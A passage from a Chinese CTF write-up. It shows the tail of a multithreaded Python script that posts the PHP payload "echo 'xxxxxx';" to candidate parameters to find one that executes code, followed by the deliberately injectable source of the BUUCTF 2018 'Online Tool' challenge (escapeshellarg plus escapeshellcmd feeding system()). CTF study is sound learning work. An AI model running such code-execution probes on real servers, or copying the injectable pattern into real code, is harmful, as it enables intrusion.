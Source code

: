 ```python
            content = req.text
            req.close()												# 关闭请求  释放内存
            if "xxxxxx" in content:
                flag = 1
                break
        if flag != 1:
            for b in posts:
                req = session.post(url, data={b:"echo 'xxxxxx';"})
                content = req.text
                req.close()												# 关闭请求  释放内存
                if "xxxxxx" in content:
                    break
        if flag == 1:													#flag用来判断参数是GET还是POST，如果是GET，flag==1，则b未定义；如果是POST，flag为0，
            param = a
        else:
            param = b
        print('找到了利用文件： '+file+"  and 找到了利用的参数：%s" %param)
        print('结束时间：  ' + time.asctime(time.localtime(time.time())))
    s1.release()

for i in files:															#加入多线程
   t = threading.Thread(target=get_content, args=(i,))
   t.start()
```

![image-20210413172719878](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210413172719.png)

![image-20210413172631157](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/20210413172631.png)

python多线程  锁：https://www.cnblogs.com/-wenli/p/12976643.html

## [BUUCTF 2018]Online Tool

```php
 <?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```
